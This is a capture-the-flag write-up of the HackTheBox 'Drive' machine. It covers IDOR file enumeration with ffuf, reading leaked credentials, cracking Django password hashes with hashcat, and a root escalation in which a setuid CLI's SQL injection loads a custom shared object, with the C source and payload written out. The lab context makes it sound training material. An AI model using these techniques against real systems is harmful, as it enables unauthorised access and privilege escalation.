



---
tags:
  - hack
  - linux
---

# HackTheBox: [Drive](https://app.hackthebox.com/machines/Drive)

> [!tip]- Summary with Spoilers
> - This machine featured a vulnerable `getFileDetail` endpoint in a Django-based application, which allowed me to enumerate accessible files.
> - I found credentials in a disclosed file and used them to access the target via SSH as `martin`.
> - Privilege escalation was achieved by exploiting a `setuid` binary, leveraging SQL injection to load a custom shared object for code execution as `root`.

## Enumerate

```console
$ sudo nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 16:04 CDT
Nmap scan report for 10.10.11.235
Host is up (0.27s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I add the `drive.htb` vhost to `/etc/hosts` and check out the website:

```console
$ curl -I http://drive.htb
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 15 Oct 2023 21:04:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 14647
Connection: keep-alive
X-Frame-Options: DENY
Vary: Cookie
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
Set-Cookie: csrftoken=zDIz4tFXgCph42CIf2Soa21PCsDJtav6; expires=Sun, 13 Oct 2024 21:04:18 GMT; Max-Age=31449600; Path=/; SameSite=Lax
```

Rendered:



## Exploit

I'm able to create a user account and explore. There is an endpoint called `getFileDetail` that fetches files via a file ID, which appears to be a sequential integer. This allows me to discover valid file IDs, which return a permission error instead of `404`. I grab the session cookie via Burp and run `ffuf`:

```console
$ c='csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x'
$ ffuf -b "$c" -w ~/w -u http://drive.htb/FUZZ/getFileDetail/ -fs 82
[...]
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /home/e/w
 :: Header           : Cookie: csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 82
________________________________________________

79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 301ms]
99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 299ms]
98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 320ms]
101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 302ms]
100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 313ms]
114                     [Status: 200, Size: 6180, Words: 1846, Lines: 221, Duration: 282ms]
:: Progress: [200/200] :: Job [1/1] :: 126 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

The endpoint <http://drive.htb/FILEID/block> does _not_ enforce file permissions, so I'm able to view the contents of those files, e.g.:



The interesting files are included below.

<http://drive.htb/79/block/>:

```text
hey team after the great success of the platform we need now to continue the work.  
on the new features for ours platform.  
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@Kj[...]".  
please make the necessary changes to the code before the end of the month  
I will reach you soon with the token to apply your changes on the repo  
thanks!
```

<http://drive.htb/101/block/>:

```text
hi team!  
me and my friend(Cris) created a new scheduled backup plan for the database  
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM  
*Note: the backup directory may change in the future!  
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :)
```

The password above works for `ssh` login as user `martin`, although there's no user flag just yet:

```console
$ ssh martin@$t
martin@10.10.11.235's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
[...]

Last login: Sun Oct 15 06:21:57 2023 from 10.10.14.12
martin@drive:~$ find .
.
./.profile
./.bashrc
./.cache
./.cache/motd.legal-displayed
./snap
./snap/lxd
./snap/lxd/common
./snap/lxd/common/config
./snap/lxd/common/config/config.yml
./snap/lxd/24061
./snap/lxd/current
./.ssh
./.ssh/known_hosts
./.bash_history
./.bash_logout
./.gnupg
./.gnupg/trustdb.gpg
./.gnupg/private-keys-v1.d
./.gnupg/pubring.kbx
```

I can view the `sqlite3` database mentioned above and grab some hashes:

```console
martin@drive:/var/www/backups$ sqlite3 db.sqlite3 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> show tables
   ...> ;
Error: near "show": syntax error
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups                   
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```

I crack one for the user `tom@drive.htb`

```text
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
```

Great, but database backups are password-protected `7z` archives.

The [Gitea](https://about.gitea.com/) service is running on `localhost` where the developers seem to be keeping their code. I'm able to create a new Gitea user, but there's nothing interesting shared with unprivileged users. However, I'm able to login as `martin@drive.htb` with the same password as above, `Xk4@Kj[…]`.

From here I can view the source code for the `db_backup.sh` script, which includes the archive password:



I'm able to decrypt and extract all the database backups using that password. All the users have crack-resistent password hashes, except for `tom`. I recover multiple passwords for that user, but the `1_Dec_db_backup.sqlite3.7z` archive has what I want:

```console
$ hashcat --show hash_1nov.txt 
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

124 | Django (SHA-1) | Framework

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnma[...]
```

This works for `ssh` login as user `tom`, where I discover the user flag:

```console
martin@drive:/tmp/...$ su - tom
Password: [johnma...]
tom@drive:~$ cat user.txt 
3e76a0[...]
```

## Escalate

I discover a `setuid` binary related to a new development project:

```console
tom@drive:~$ cat README.txt 
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on thier servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.

tom@drive:~$ ls -la
total 916
drwxr-x--- 6 tom  tom    4096 Sep 13 13:51 .
drwxr-xr-x 6 root root   4096 Dec 25  2022 ..
lrwxrwxrwx 1 root root      9 Sep  6 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 tom  tom     220 Dec 25  2022 .bash_logout
-rw-r--r-- 1 tom  tom    3771 Dec 25  2022 .bashrc
drwx------ 3 tom  tom    4096 Jan  1  2023 .cache
drwx------ 3 tom  tom    4096 Feb  3  2023 .config
-rwSr-x--- 1 root tom  887240 Sep 13 13:36 doodleGrive-cli
drwx------ 3 tom  tom    4096 Jan  1  2023 .gnupg
drwxrwxr-x 3 tom  tom    4096 Dec 28  2022 .local
-rw-r--r-- 1 tom  tom     807 Dec 25  2022 .profile
-rw-r----- 1 root tom     719 Feb 11  2023 README.txt
-rw-r----- 1 root tom      33 Oct 18 17:06 user.txt
-rw-r--r-- 1 tom  tom      39 Aug 29 05:59 .vimrc
```

The binary is password-protected but the password is plaintext discoverable via `strings`, along with a few command-lines and SQL statements that will be useful later:

```console
tom@drive:~$ strings doodleGrive-cli
[...]
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,last_login,is_superuser,username,email,is_staff,is_active,date_joined FROM accounts_customuser;'                                   
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,name FROM accounts_g;'          
/usr/bin/sudo -u www-data /opt/server-health-check.sh                            

Enter username to activate account: 
Error: Username cannot be empty.
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customuser SET is_active=1 WHERE username="%s";'                        
Activating account for user '%s'...
/usr/bin/sudo -u www-data /usr/bin/tail -1000 /var/log/nginx/access.log

doodleGrive cli beta-2.2:

1. Show users list and info
2. Show groups list
3. Check server health and status 
4. Show server requests log (last 1000 request)
5. activate user account                    
6. Exit                          
Select option:                                                                                                  
exiting...                 
please Select a valid option...
PATH                   
[!]Caution this tool still in the development phase...please report any issue to the development team[!]                                                                                             
Enter Username:              
Enter password for                   
moriarty                  
findMe[...]
```

## Escalate

The binary offers several options which trigger various commands or SQL queries. Only one of them allows user input, the `activate user account` option. This takes a username as input and passes it to this SQL statement:

```text
UPDATE accounts_customuser SET is_active=1 WHERE username="%s";
```

This is an SQL injection opportunity. This database has `load_extension` enabled, which we can exploit via a custom shared object:

```console
tom@drive:~$ cat x.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/usr/bin/cat /root/root.txt");
}

$ gcc -shared x.c -o x.so -nostartfiles -fPIC
```

Now I can trigger the SQLi. I have to obfuscate the path ("`./x`") using `char(46,47,120)` because `/` characters are filtered out. This reveals the `root` flag:

```console
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMe[...]
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "=load_extension(char(46,47,120))--
Activating account for user '"=load_extension(char(46,47,120))--        '...
e3ed9ed[...]
```
